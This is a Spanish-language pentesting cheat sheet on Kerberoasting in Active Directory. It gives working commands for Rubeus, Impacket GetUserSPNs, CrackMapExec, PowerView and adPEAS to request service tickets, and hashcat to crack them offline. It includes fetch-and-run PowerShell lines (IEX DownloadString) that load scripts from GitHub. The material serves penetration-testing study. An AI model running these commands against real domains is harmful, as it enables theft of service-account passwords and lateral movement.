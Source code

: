 # Kerberoasting 

Tags: #AD #Kerberoasting #Rubeus #Crackmapexec #Impacket #BloodHound #ADPeas #PowerView #HashCat #Windows 

El "Kerberoasting" es una técnica utilizada por atacantes para extraer tickets de servicio de Kerberos en Active Directory y descifrarlos fuera de línea, con el objetivo de obtener contraseñas en texto claro de cuentas de servicio. Este ataque aprovecha configuraciones débiles, como contraseñas poco seguras en cuentas de servicio, y representa una vulnerabilidad significativa en entornos de AD, dado que no genera alertas inmediatas al realizarse el descifrado fuera de la red.

```bash 
# Funcionamiento 

1. Ticket de Servicio: En Kerberos, cuando un usuario quiere acceder a un servicio, solicita un ticket de servicio (TGS, Ticket Granting Service). Este ticket está cifrado con la contraseña de la cuenta de servicio del recurso al que el usuario quiere acceder.
    
2. Extracción: Un atacante no necesita privilegios especiales en el dominio para solicitar un ticket de servicio para cualquier cuenta de servicio. Una vez que el atacante tiene el ticket, puede exportarlo y llevarlo a otro lugar para intentar descifrarlo.
    
3. Descifrado: El atacante intentará descifrar el ticket fuera de línea utilizando herramientas de fuerza bruta o diccionarios. Si la contraseña de la cuenta de servicio es débil, el atacante podría descifrarla en un tiempo razonable.
    
4. Compromiso: Una vez que el atacante tiene la contraseña en texto claro de la cuenta de servicio, puede usarla para acceder a recursos o moverse lateralmente en la red.
```

## Detectar con BloodHound

```bash 
Para detectar posibles vectores de ataque relacionados al Kerberoasting en BloodHound simplemente ejecutamos la siguiente consulta:

	* 'List all Kerberoastable Accounts' en la pestaña de 'Analisys'
```

## Obtener Hash con ADPeas

```bash 
# Ejemplo de un hash 'Kerberoasteable'

❯ $krb5tgs$23$*roast.user$domain1.corp$MSSQL/sql.domain1.corp*$A8DDCBEA1C6AEFE971C4BA672CBC9F32$8D3...

Nota: Debemos de guardar el Hash en una sola linea
```

* [ADPeas](https://github.com/61106960/adPEAS)

```powershell 
❯ IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/61106960/adPEAS/main/adPEAS.ps1')

❯ Invoke-adPEAS    # Módulo para hacer la enumeración automatizada
```
## Obtener Hash con Rubeus

Rubeus es una herramienta avanzada de post-explotación diseñada para interactuar con el protocolo Kerberos en entornos de Active Directory (AD). Desarrollada en C#, es ampliamente utilizada en pruebas de penetración y auditorías de red por su capacidad para manipular y explorar el protocolo, permitiendo realizar diversas técnicas como Kerberoasting, extracción de tickets y ataques relacionados con la autenticación.

```bash 
1. Solicitar Tickets Kerberos (TGTs): Rubeus puede solicitar Ticket Granting Tickets (TGTs) utilizando contraseñas, hashes o incluso claves.
2. Kerberoasting: Rubeus es capaz de solicitar Ticket Granting Service (TGS) tickets para cuentas de servicio y luego intentar descifrar estos tickets fuera de línea para obtener contraseñas en texto claro, una técnica conocida como Kerberoasting.
3. Overpass (Pass-the-Ticket): Rubeus puede realizar ataques de "Overpass", donde los TGTs son utilizados para autenticarse en otros sistemas sin conocer la contraseña del usuario.
4. Ticket Renewal: Puede renovar tickets válidos que aún estén dentro de su período de renovación.
5. Dumping Tickets: Rubeus puede extraer tickets de la memoria y almacenarlos para su uso o análisis posterior.
6. Manipulación de Tickets: Puede purgar, renovar e incluso falsificar tickets de Kerberos.
7. Hunting de Tickets: Rubeus puede buscar en la red tickets específicos que proporcionen acceso a ciertos recursos o que posean ciertos privilegios.
8. Ataques de Fuerza Bruta: Puede intentar fuerza bruta contra cuentas de usuario con el objetivo de obtener un TGT.
```

* [Rubeus](https://github.com/GhostPack/Rubeus)
* [Rubeus.exe](https://github.com/Spartan-Cybersecurity/CPAD-Tools/blob/main/Rubeus.exe)

```powershell
❯ ./Rubeus.exe kerberoast     # Ejecutamos la herramienta agregando el tipo de ataque 'Kerberoast'
```

## Obtener Hash con Impacket-GetUsersSPNs

"Impacket-GetUserSPNs" es una herramienta de la suite Impacket, diseñada para interactuar con protocolos de red, específicamente en entornos Microsoft. Es ampliamente utilizada en pruebas de penetración y Red Teaming para identificar cuentas de servicio con nombres principales de servicio (SPNs) registrados en Active Directory (AD). Esto permite a los evaluadores descubrir posibles objetivos para ataques como Kerberoasting.

- Los SPNs se utilizan en Active Directory para asociar un servicio específico con una cuenta de usuario o de computadora que ejecuta ese servicio. Esto es crucial para el proceso de autenticación Kerberos.
    
- Un SPN incorrectamente configurado o asociado con una cuenta de usuario en lugar de una cuenta de servicio puede ser explotado para comprometer la seguridad de la red.

```bash 
GetUserSPNs en Impacket: La funcionalidad GetUserSPNs se utiliza específicamente para identificar y explotar configuraciones inseguras de SPNs dentro de un dominio de Active Directory. Aquí está cómo funciona:

1. Enumeración de SPNs: Primero, el atacante o pentester utiliza GetUserSPNs para enumerar todos los SPNs configurados en el dominio que están asociados con cuentas de usuario regulares en lugar de cuentas de servicio. Esto se hace enviando consultas al controlador de dominio y solicitando información específica sobre los SPNs.
    
2. Extracción de Tickets TGS: Una vez que se identifican las cuentas de usuario con SPNs, GetUserSPNs puede solicitar tickets de servicio Kerberos (conocidos como Ticket Granting Service o TGS) para esos servicios desde el controlador de dominio, utilizando la funcionalidad de Kerberos conocida como Kerberoasting.
    
3. Crackeo de Tickets: Los TGS obtenidos están cifrados con la contraseña de la cuenta de usuario asociada con el SPN. Sin embargo, debido a que muchas organizaciones utilizan políticas de contraseñas débiles, un atacante puede intentar "romper" el cifrado de estos tickets fuera de línea mediante fuerza bruta o técnicas de adivinación de contraseñas.
    
4. Compromiso de Cuentas: Si el atacante logra descifrar la contraseña de una cuenta, puede utilizar esas credenciales para acceder a sistemas, elevar privilegios, o realizar movimientos laterales dentro de la red, comprometiendo potencialmente la seguridad de toda la organización.
```

```bash 
❯ impacket-GetUserSPNs domain.corp/user:Password     # Ver si el usuario es Kerberosteable y lista los usuarios a los que puedes solicitar un TGS

❯ impacket-GetUserSPNs domain1.corp/clearpass.user:Password@1 -dc-ip IP -request

	# dc-ip = Dirección IP del DC
	# domain1 = Dominio 
	# clearpass.user = Usuario valido del dominio 
	# Password@1 = Contraseña del usuario valido 

Nota: Debemos de tener la IP con su dominio en el '/etc/hosts'
```

## Obtener Hash con CrackMapExec

```bash 
❯ ./cme ldap IP -u 'clearpass.user' -p 'Password@1' --kerberoast output.txt

Nota: Debemos de tener la IP con su dominio en el '/etc/hosts'
```

## Obtener Hash con PowerView

```powershell
❯ IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1');

❯ Request-SPNTicket -SPN "MSSQL/sql.domain1.corp"
```

## Crackear el Hash obtenido 

```bash 
# Guardar y crackear el hash con 'Hashcat'
❯ hashcat -m 13100 --force hash-kerberoasting /usr/share/wordlists/rockyou.txt

	# m = Método por fuerza bruta
	# 13100 = TGS de un Kerberoasting
	# hash-kerberoasting = Archivo que contiene el hash 
	# rockyou = Diccionario a usar 
```
